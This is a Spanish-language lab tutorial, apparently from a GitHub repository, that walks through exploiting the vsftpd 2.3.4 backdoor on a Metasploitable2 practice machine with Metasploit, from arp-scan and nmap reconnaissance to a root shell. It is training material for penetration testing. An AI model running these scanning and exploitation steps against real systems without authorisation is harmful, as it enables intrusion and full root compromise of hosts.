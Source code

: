 # Uso Básico de Metasploit – Explotación vsftpd en Linux

Maquinas que vamos a utilizar Kali Linux y Metasploitable2 (se trata de una máquina que presenta multitud de vulnerabilidades, lo que nos permite practicar pentesting de una forma sencilla).


![image.png](./imagenes/image.png)

En nuestra maquina Linux hacemos un **arp-scan para ver que equipos hay en nuestra red** local.

```bash
sudo arp-scan -I eth0 --localnet
```

![image.png](./imagenes/image%201.png)

- En este caso tenemos dos IPs que que pueden ser nuestro maquina victima. V**amos a hacer una traza "ICMP Echo Request” mediante un Ping** y veremos su respuesta a la  verificación si ese dispositivo está accesible en la red . Y **mediante el TTL de respuesta** intentar **saber de que dispositivos se tratan**.
    
    ```bash
    ping -c 1 10.0.3.3
    ```
    
    ![image.png](./imagenes/image%202.png)
    

```bash
ping -c 1 10.0.3.7
```

![image.png](./imagenes/image%203.png)

Como vemos en la **IP 10.0.3.3 el TTL es 255, a**lgunos **dispositivos de red** suelen usar TTL  255 como TTL inicial predeterminado. 

**IP 10.0.3.7 el TTL es 64, a**lgunos **dispositivos Linux** usan 64 como TTL inicial predeterminado.

- Seguidamente después de localizar la IP de nuestra maquina victima . Vamos a hacer un **reconocimiento de puertos con NMAP**.
    
    ```bash
    nmap -p- --open -sS -sC -sV -min-rate 2000 -n -vvv -Pn 10.0.3.7 -oN escaneo
    ```
    
    ![image.png](./imagenes/image%204.png)
    

Como vemos esta maquina tiene muchos puerto abiertos (Mirar Apéndice: Puertos y Servicios más Comunes). 

Vamos a escoger por ejemplo el **puerto 21 que es donde corre el FTP**.

![image.png](./imagenes/image%205.png)

Probamos si tiene alguna vulnerabilidad.

```bash
nmap --script "vuln" -p21 10.0.3.7
```

![image.png](./imagenes/image%206.png)

- Abrimos el Metasploit
    
    ![image.png](./imagenes/image%207.png)
    

Buscamos la vulnerabilidad a través del CVE

`search CVE-2011-2523`

![image.png](./imagenes/image%208.png)

Nos encontramos que no encuentra nada. Esto puede ser por varias razones, a veces dentro del exploit no viene con con el CVE y si viene con el nombre del servicio. Debemos entonces buscar de otras formas por ejemplo vamos a buscar por el servicio y versión que esta corriendo en el puerto.

![image.png](./imagenes/image%209.png)

`search vsFTP 2.3.4`

![image.png](./imagenes/image%2010.png)

`use 0`

![image.png](./imagenes/image%2011.png)

`show options`

![image.png](./imagenes/image%2012.png)

Vamos a rellenar los parámetros obligatorios (si sabemos algún datos de los no obligatorios también debemos rellenarlo para mejorar la posibilidad de éxito).

`set RHOSTS 10.0.3.7`

`show options`

![image.png](./imagenes/image%2013.png)

**NOTA:** El servicio **FTP** por defecto corre en el puerto 21 pero puede darse el caso que en alguna maquina el servicio corra en otro puerto por tanto **debemos verificar que el puerto RPORT sea el correcto**.

Ejecutamos el exploit: `run`

![image.png](./imagenes/image%2014.png)

**NOTA:** Cuando hacemos una intrusión el puerto que se utiliza es un puerto al azar. El puerto 21 solo se utiliza para entrar.

Miramos que clase de usuario soy con el comando `whoami` y lanzamos una shell para movernos mejor.

`whoami`

`shell`

![image.png](./imagenes/image%2015.png)

**Ya estaríamos dentro con privilegios de Root**.